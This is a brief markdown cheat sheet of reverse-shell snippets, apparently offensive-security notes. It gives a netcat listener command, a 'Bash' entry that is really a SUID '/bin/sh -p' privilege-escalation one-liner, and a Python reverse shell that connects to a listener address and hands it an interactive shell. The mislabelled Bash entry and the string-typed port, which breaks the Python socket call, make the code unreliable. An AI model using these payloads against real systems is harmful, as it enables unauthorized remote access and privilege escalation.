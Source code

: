 ## Rev Shells 

See also: [RevShells](https://www.revshells.com/).

#### Listener

```bash
nc -lvnp <port_number>
```


#### Bash

```bash
./env /bin/sh -p
```

#### Python

```python
import os, socket, subprocess
ip_address = "<listener_ip_address>"
port = "<port_number>"
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((ip_address,port));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
